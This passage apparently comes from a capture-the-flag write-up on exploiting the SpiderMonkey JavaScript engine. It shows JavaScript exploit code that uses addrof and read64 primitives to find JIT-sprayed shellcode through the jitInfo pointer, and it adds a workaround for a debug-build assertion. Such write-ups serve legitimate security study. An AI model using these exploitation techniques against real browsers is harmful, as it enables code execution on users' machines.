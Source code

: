 And as we can see, we found not only our marker but also the shellcode we intended in the correct order on a read/execute page.

After having solved the "shellcode problem" we still need a way to dynamically locate it (since it’s somewhere at a changing offset from where the jitInfo pointer points) and transfer execution to it. Finding the location is not that difficult as we can use our read primitive to scan the memory until we find the marker:

```js
...
shellcode_addr = addrof(shellcode);
console.log("[>] Function @ " + shellcode_addr.toString(16));

// Get the jetInfo pointer in the JSFunction object (JSFunction.u.native.extra.jitInfo_)
jitinfo = read64(shellcode_addr + 0x28n);
console.log("[>] Jitinfo @ " + jitinfo.toString(16));

// Dereference pointer to get RX Region
rx_region = read64(jitinfo & 0xffffffffffffn);
console.log("[>] Jit RX @ " + rx_region.toString(16));


// Iterate to find magic value (since the shellcode is not at the start of the rx_region)
it = rx_region; // Start from the RX region
found = false
for(i = 0; i < 0x800; i++) {
    data = read64(it);
    if(data == 0x41414141n) {
    it = it + 8n;  // 8 byte offset to account for magic value
    found = true;
    break;
    }
    it = it + 8n;
}
if(!found) {
    console.log("[-] Failed to find Jitted shellcode in memory");
} 
```

There is one problem here – if you run it in the debug version it fails:

```js
Assertion failure: !cx->nursery().isInside(ptr)
```

When running release it does however work. Debug adds some assertions to make sure nothing funky is going on – so most of the time it’s a good idea to start with the debug version but switch to release at some point. In this case, the challenge itself is however also running in debug mode so we will have to fix our exploit to work around that! What I noticed other people are doing to get around this is essentially looping until the shellcode pointer changes (often with some additional logic that didn’t appear to be required) – I have no idea why this is required but it works (please let me know!). So what we can add is a simple loop that waits for that change to occur:

```js
shellcode_addr = addrof(shellcode);   
while(shellcode_addr == addrof(shellcode)){
        // just block until we get the updated addr 
}
shellcode_addr = addrof(shellcode);   
```
